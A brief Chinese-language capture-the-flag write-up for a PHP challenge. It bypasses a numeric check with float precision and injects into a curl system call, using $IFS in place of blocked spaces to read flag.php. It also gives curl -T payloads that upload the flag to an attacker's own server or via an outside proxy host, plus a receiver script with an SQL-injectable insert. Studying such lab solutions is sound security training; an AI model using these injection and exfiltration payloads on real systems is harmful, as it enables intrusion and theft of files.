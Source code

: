 ###此题是全国大学生CTF联赛的真题 


$num=0.9999999999999999999999999999999999999999999999  利用浮点数精度绕过



住要看 system(curl$cmd/flag);

$cmd不允许存在空格...
要读取文件,必须要构造一个空格出来,

利用Shell 脚本中有个变量叫IFS(Internal Field Seprator) ，内部域分隔符
echo $IFS   | od -b  

最后 $cmd=$IFS\file:///$PWD/flag.php
或者 $cmd=$IFS\file:///var/www/html/exam/flag.php$IFS\
    $cmd=$IFS"file:///$PWD/"
    
    $cmd=curl -T flag.php http://自己的服务器/getflag.php < ./flag.php
    getflag.php 
    ```
       <?php
        $db = new mysqli('localhost', 'root', 'root', 'getflag');
        $t = file_get_contents('php://input');
        $db->query("INSERT INTO `getflag` (`flag`) VALUES('{$t}')");
        ?>
    ```
    
    我发现的:$cmd=$IFS\-x$IFS\wonderkun.cc$IFS\-T$IFS\flag.php$IFS\http
    
